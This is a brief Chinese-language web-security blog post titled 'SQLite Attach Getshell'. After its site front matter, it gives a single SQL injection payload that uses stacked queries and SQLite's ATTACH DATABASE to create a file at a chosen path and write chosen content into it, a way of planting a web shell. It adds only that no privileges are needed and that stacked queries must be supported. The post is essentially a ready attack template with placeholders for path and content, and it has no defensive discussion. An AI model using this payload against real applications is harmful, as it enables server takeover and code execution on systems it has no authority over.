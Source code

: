 ```yaml
---
title: "SQLite Attach Getshell"
date: 2019-02-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqlite','sqli']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



SQLite Attach Getshell

<!--more-->

无权限要求.

```
;ATTACH DATABASE '路径' AS pwn ; CREATE TABLE pwn.exp (dataz text) ; INSERT INTO pwn.exp (dataz) VALUES ('内容'); --
```

需支持堆查询.